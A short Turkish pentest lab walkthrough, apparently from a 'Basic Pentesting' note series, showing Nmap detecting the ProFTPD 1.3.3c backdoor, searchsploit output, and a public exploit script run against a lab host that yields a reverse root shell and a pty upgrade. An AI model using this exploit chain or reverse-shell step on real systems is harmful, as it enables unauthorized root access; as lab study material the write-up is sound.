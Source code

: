 [[Basic Pentesting/Ağ taraması/Nmap|Nmap]] zafiyet sonuçlarında bize bir bulgu vermişti 

```
21/tcp open  ftp
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.
|   Command: id
|_  Results: uid=0(root) gid=0(root) groups=0(root),65534(nogroup
```

```
└──╼ #searchsploit ProFTPD 1.3.3C
-------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                   |  Path
-------------------------------------------------------------------------------------------------------------------------------------------
ProFTPd 1.3.3c - Compromised Source Backdoor Remote CodeExecution| linux/remote/15662.txt
ProFTPd-1.3.3c - Backdoor Command Execution (Metasploit)         | linux/remote/16921.rb
-------------------------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Results
```


[ProFTPD 1.3.3c Exploit](https://github.com/shafdo/ProFTPD-1.3.3c-Backdoor_Command_Execution_Automated_Script) kullanarak sistem içerisinden shell almayı başardık.

```
└──╼ #python proFTPD_1.3.3c_exploit.py 10.0.2.15 10.0.2.12
/\/\/\/\ Starting Handler /\/\/\/\/

listening on [any] 1234 ...
[+] Sending payload
[+] Activating the backdoor

connect to [10.0.2.15] from (UNKNOWN) [10.0.2.12] 50038
/bin/sh: 0: can't access tty; job control turned off
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@vtcsec:/# whoami
whoami
root
root@vtcsec:/# 
```


